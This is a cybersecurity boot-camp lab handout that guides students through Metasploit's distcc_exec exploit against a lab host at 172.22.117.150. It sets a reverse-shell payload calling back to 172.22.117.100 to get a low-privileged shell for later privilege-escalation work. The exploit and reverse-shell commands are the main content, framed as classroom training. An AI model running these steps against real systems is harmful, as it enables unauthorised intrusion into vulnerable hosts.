


#### Post Exploitation Activity Setup

As a class, we will first set up a low-privileged shell using Metasploit, which you will then use for post-exploitation and privilege-escalation techniques. Follow along on your own computers as you complete these steps:

1. In Metasploit, search for `distcc`, and select it. 

   - `search distcc` 
   
   - `use 0` or `use exploit/unix/misc/distcc_exec`

   

   - `distcc` is a tool for compiling code. It runs as a daemon with low permissions, and this version is vulnerable. 

2. List the options of the module, and we need to set RHOSTS again as it is a required option.

   - `set RHOSTS 172.22.117.150`

3. Before running the module, we need to set a payload. List the available payloads.

   - `show payloads`
   
   -  **Description** column, as it shows in parentheses how the payload is communicating.

4. Select the **reverse** payload. Be sure NOT to select **reverse_bash**, or the exploit will not work.

   - `set PAYLOAD cmd/unix/reverse`
   
   - Note that we are now using the PAYLOAD with our EXPLOIT!

5. 

   - `set LHOST 172.22.117.100`

   

6. Run the module.

   - `exploit` OR `run`

   

7. Check your current user via `id`.

   - `id`

   - we were able to obtain a low-privileged shell with an exploit.

   - Leave the current window and Metasploit session open, as you will use it in the next activity.

-------

© 2022 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.  
